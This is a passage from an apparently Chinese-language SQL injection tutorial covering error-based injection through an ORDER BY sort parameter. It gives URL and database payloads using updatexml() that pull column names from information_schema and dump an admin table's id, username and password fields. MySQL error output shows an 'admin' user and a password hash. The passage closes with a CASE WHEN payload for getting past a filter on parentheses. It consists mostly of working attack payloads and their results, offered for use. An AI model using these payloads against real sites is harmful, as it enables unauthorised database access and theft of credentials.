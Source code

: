 例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password



web语句: http://www.test.com/sql.php?sort=id, updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 0,1),0x7e),1)



数据库语句-爆test库 tdb_admin表的字段名: select * from test order by id, updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 0,1),0x7e),1);



```plain
mysql> select * from test order by id, updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' LIMIT 0,1),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~~id~~'
```

## 0x07 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql.php?sort=id, updatexml(1, concat(0x7e,(SELECT distinct concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e) FROM 库名.表名 limit 0,1)),1)



数据库语句: select * from test order by id, updatexml(1, concat(0x7e,(SELECT distinct concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e) FROM 库名.表名 limit 0,1)),1)

```plain
mysql> select * from test order by id, updatexml(1, concat(0x7e,(SELECT distinct concat(0x7e,id,0x3a,username,0x3a,password,0x7e) FROM test.tdb_admin limit 0,1)),1);
ERROR 1105 (HY000): XPATH syntax error: '~~1:admin:7fef6171469e80d32c0559'
```

# OrderBy 注入点-case-条件判断绕过括号过滤

## 0x00 概要

不允许 “括号” 出现时的注入方法

id-case when 1 like 1 then 0 else 2*1e308 end
